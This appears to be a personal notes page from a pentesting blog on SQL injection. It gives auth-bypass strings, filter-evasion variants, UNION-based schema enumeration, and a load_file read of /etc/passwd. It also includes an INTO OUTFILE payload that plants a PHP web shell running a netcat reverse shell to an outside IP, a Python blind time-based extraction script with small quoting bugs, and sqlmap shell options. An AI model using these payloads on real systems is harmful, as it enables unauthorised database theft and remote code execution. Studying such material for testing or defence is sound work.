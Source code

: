 ```yaml
---
layout: post
title: 'Notes | SQL'
date: 2021-12-12
permalink: /notes/databases/sql/
---
```

# [](#header-4)Basic access
Maybe the database have the default login, we can try with:
{% highlight plain %}
> mysql -u root -h <ip>
{% endhighlight %}

# [](#header-4)Basic Injection
If we can send a query to the database to log, we can do:
{% highlight plain %}
' or '1'='1' --
{% endhighlight %}

Probably we need to change the text to bypass filter:
{% highlight plain %}
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
{% endhighlight %}
We can change the spaces by:
{% highlight plain %}
+, /**/, %20
{% endhighlight %}

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

##### Probably, we need to add **;** at the end of the query (before the comment).


Also, we can try to catch the login request with burp and send the SQLi with it.

# [](#header-4)Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
{% highlight plain %}
... ORDER BY 5; --
{% endhighlight %}
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
{% highlight plain %}
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
{% endhighlight %}

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
{% highlight plain %}
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
{% endhighlight %}

Or the others databases:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
{% endhighlight %}
Some databases can limit the amount on databases show, we can try to change it with limit:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
{% endhighlight %}

To get the columns of a table:
{% highlight plain %}
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
{% endhighlight %}

We can use this syntax to read and write system files:
{% highlight plain %}
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
{% endhighlight %}
And then create a reverse shell:
{% highlight plain %}
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
{% endhighlight %}

If we can not pass a string like **"database-name"** we can encode it:
{% highlight plain %}
> echo "database-name" | xxd -ps
{% endhighlight %}
##### (We may remove the **0a**, and add a **0x** at the beggining.)

# [](#header-4)Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
{% highlight plain %}
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
{% endhighlight %}

We can make a Python Script:
{% highlight plain %}
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
{% endhighlight %}

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

# [](#header-4)SQLmap
We can try searching a URL with:
{% highlight plain %}
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
{% endhighlight %}

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**